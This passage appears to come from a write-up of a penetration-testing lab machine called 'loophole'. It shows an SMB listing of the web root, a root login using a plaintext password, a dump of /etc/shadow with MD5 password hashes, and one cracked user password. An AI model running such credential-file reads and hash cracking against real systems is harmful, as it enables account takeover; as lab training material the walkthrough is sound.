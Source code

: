                 37571 blocks of size 4096. 36565 blocks available
smb: \rootfs\> cd var\www\htdocs
smb: \rootfs\var\www\htdocs\> dir
  .                                   D        0  Fri Feb 18 12:41:43 2011
  ..                                  D        0  Tue Mar 20 10:58:04 2001
  Images                              D        0  Fri Feb 18 12:22:50 2011
  garbage                             N      288  Fri Feb 18 12:41:14 2011
  index.html                          A     3001  Fri Feb 18 12:33:59 2011
  info.php                            A       21  Fri Feb 18 12:06:04 2011
  status.html                         A     2456  Fri Feb 18 12:28:46 2011

                37571 blocks of size 4096. 36561 blocks available
{% endcodeblock %}

We suppose we should find 'garbage' file this way, but the filename was too
predictable for dirb.

We log in as root / albatros and crack the last user (jsummer): 
{% codeblock %}
[root@loophole]$  id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),17(audio),18(video),19(cdrom),26(tape),83(plugdev)
[root@loophole]$ cat /etc/shadow
root:$1$x2YBL0KB$E7QI7AF9ZeiqcfMRQ4KZ11:15018:0:::::
bin:!!:9797:0:::::
daemon:!!:9797:0:::::
adm:!!:9797:0:::::
lp:!!:9797:0:::::
sync:!!:9797:0:::::
shutdown:!!:9797:0:::::
halt:!!:9797:0:::::
mail:!!:9797:0:::::
news:!!:9797:0:::::
uucp:!!:9797:0:::::
operator:!!:9797:0:::::
games:!!:9797:0:::::
ftp:!!:9797:0:::::
smmsp:!!:9797:0:::::
mysql:!!:9797:0:::::
rpc:!!:9797:0:::::
sshd:!!:9797:0:::::
gdm:!!:9797:0:::::
apache:!!:9797:0:::::
messagebus:!!:9797:0:::::
haldaemon:!!:9797:0:::::
pop:!!:9797:0:::::
nobody:!!:9797:0:::::
mhog:$1$ZQAbXwf3$TgcNjljKW.2tlJw4OICDr1:15019:0:::::0
tskies:$1$ZvNtdn0x$ck5hnAwXg.OLQPOtg28Hb.:15019:0:::::0
jsummer:$1$28n0w2tK$YaVxVAO87McqIfRJsp6jF0:15021:0:::::0

tarot            (jsummer)
{% endcodeblock %}
